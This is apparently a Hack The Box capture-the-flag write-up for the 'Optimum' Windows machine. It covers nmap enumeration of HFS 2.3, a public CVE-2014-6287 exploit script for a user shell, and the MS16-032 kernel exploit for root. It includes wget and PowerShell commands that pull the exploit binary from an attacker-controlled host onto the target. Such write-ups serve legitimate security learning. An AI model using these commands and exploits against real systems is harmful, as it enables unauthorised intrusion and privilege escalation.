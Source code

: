 ```yaml
---
featured_image: "/posts/Optimum/Optimum.png"
title : HTB 15/20 Optimum
published : true
date: 2021-04-24
author : PS
---
```

## Foothold
*nmap*

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 16:28 EEST
Nmap scan report for 10.10.10.8
Host is up (0.075s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Port 80 timeeee  
![[Pasted image 20210428163007.png]]
Lots of this to check :(  
When trying to login , and failing we see something interesting :  
![[Pasted image 20210428163106.png]]
hmmm  
![[Pasted image 20210428163132.png]]
Hehe  
## User
We use the https://github.com/roughiz/cve-2014-6287.py (do not forget to run it with sudo )  
And get a  shell :  
![[Pasted image 20210428164215.png]]
## Root 
![[Pasted image 20210428164324.png]]
We find the version of the win , search it on the internet and find an exploit :
![[Pasted image 20210428173345.png]]
We will use the compiled version : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032/x64
```bash
wget https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-032/x64/ms16-032.exe
```
Get the exploit on the other machine 
![[Pasted image 20210428174011.png]]
```bash
powershell.exe -c "Invoke-WebRequest -Uri http://10.10.14.7/ms16-032.exe -OutFile C:\Users\kostas\Desktop\ms16-032.exe
```
Run the exploit annnd get root :D 
PS outttttt
